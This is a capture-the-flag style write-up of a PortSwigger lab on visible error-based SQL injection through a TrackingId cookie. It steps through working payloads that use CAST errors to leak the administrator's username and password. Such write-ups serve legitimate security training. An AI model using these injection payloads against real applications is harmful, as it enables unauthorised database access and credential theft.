

# Write-up: Visible error-based SQL injection
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based>  
Difficulty: PRACTITIONER  

## Lab description

## Steps

### Enumeration

In tracking cookie, we see that the cookie contains a `TrackingId` parameter. As the lab description mentions that the error is visible, we can try to manipulate this parameter to trigger an error.
Append `'` single quote which results in error response. This verbose error reveals the full query which has a extra single quote, we can use `--` comment to remove this error.

### Exploitation

Now we need to return password. We can use Select 1, to test.
`uy88fXwVlwBrEnaK' AND SELECT 1--`, this gives us the error.

So we CAST the value to integer.
`uy88fXwVlwBrEnaK' AND CAST((SELECT 1) AS int)--`, but this gives an error that 'AND must be type boolean, not type integer'. So, we change the query to
`uy88fXwVlwBrEnaK' AND 1=CAST((SELECT 1) AS int)--`, this results in a successful response.

Now we check the users table.
`uy88fXwVlwBrEnaK' AND 1=CAST((SELECT username FROM users) AS INT)--`, this gives an error because their is character limitation. So we can just remove the tracking id.

`' AND 1=CAST((SELECT username FROM users) AS INT)--`, this gives error that `more than one row returned by a subquery used as an expression`.

Now, if we add LIMIT 1, we can get the first username in error response.
`' AND 1=CAST((SELECT username FROM users LIMIT 1) AS INT)--`, this gives the username `administrator`.
Reponse : `ERROR: invalid input syntax for type integer: "administrator"`

So, now we do similar to get password.
`' AND 1=CAST((SELECT password FROM users LIMIT 1) AS INT)--`, this gives the error `ERROR: invalid input syntax for type integer: "k77zpfjgtyqvmomjh8dy"`.

This gives us the password `k77zpfjgtyqvmomjh8dy` and we can now login as administrator.

Hence, the lab is sovled.

